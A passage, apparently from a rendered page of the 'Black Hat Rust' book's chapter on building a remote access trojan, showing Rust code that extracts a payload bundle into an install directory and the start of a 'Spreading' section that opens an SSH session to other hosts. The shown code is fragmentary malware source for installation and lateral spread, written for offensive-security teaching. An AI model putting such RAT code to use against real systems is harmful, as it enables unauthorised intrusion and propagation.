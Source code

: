 ```rust
            extract_bundle(install_dir.clone(), bundle)?;
        } else {
            println!("bundle.zip NOT found");
        }
    }

    Ok(install_dir)
}
```


```rust
fn extract_bundle(install_dir: PathBuf, bundle: PathBuf) -> Result<(), crate::Error> {
    let mut dist_bundle = install_dir.clone();
    dist_bundle.push(&bundle);

    fs::copy(&bundle, &dist_bundle)?;

    let zip_file = fs::File::open(&dist_bundle)?;
    let mut zip_archive = zip::ZipArchive::new(zip_file)?;

    for i in 0..zip_archive.len() {
        let mut archive_file = zip_archive.by_index(i)?;
        let dist_filename = match archive_file.enclosed_name() {
            Some(path) => path.to_owned(),
            None => continue,
        };
        let mut dist_path = install_dir.clone();
        dist_path.push(dist_filename);

        let mut dist_file = fs::File::create(&dist_path)?;
        io::copy(&mut archive_file, &mut dist_file)?;
    }

    Ok(())
}
```

Note that in a real-world scenario, we may download `bundle.zip` from a remote server instead of simply having it available on the filesystem.


## Spreading

### SSH connection



**[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;
```
